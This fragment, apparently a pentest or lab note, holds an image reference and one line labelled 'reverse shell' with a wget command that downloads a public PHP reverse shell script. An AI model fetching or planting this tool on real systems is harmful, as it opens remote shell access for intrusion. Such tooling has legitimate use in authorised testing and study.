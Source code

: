 reverse shell: 
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php


